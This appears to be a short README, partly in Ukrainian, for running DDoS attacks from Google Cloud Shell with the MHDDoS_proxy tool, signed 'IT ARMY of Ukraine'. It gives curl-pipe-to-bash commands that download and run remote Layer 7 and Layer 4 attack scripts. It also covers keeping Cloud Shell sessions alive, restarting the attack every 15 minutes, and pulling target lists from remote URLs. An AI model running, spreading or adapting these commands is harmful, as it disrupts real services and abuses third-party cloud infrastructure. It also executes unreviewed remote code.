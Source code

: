 # DDoS whith Google Cloud Shell 
# MHDDoS_proxy
# 
Making script for durable cloudshell session

# ТЕСТ
Команди для запуску атаки 
по Layer7:
curl -l https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/Test_L7m.sh | bash

по Layer4:
curl -l https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/Test_L4.sh | bash

У GCloudShell вмикаємо Ephemeral Mode (ставимо - "Завжди")

перезапуск скрипту кожні 15 хв, метод атаки додається зі списку цілей, параметр -t вказано 1200

списки з цілями
https://raw.githubusercontent.com/Operation-Stop-russia/targets_lists/main/L7m.lst
https://raw.githubusercontent.com/Operation-Stop-russia/targets_lists/main/L4



IT ARMY of Ukraine

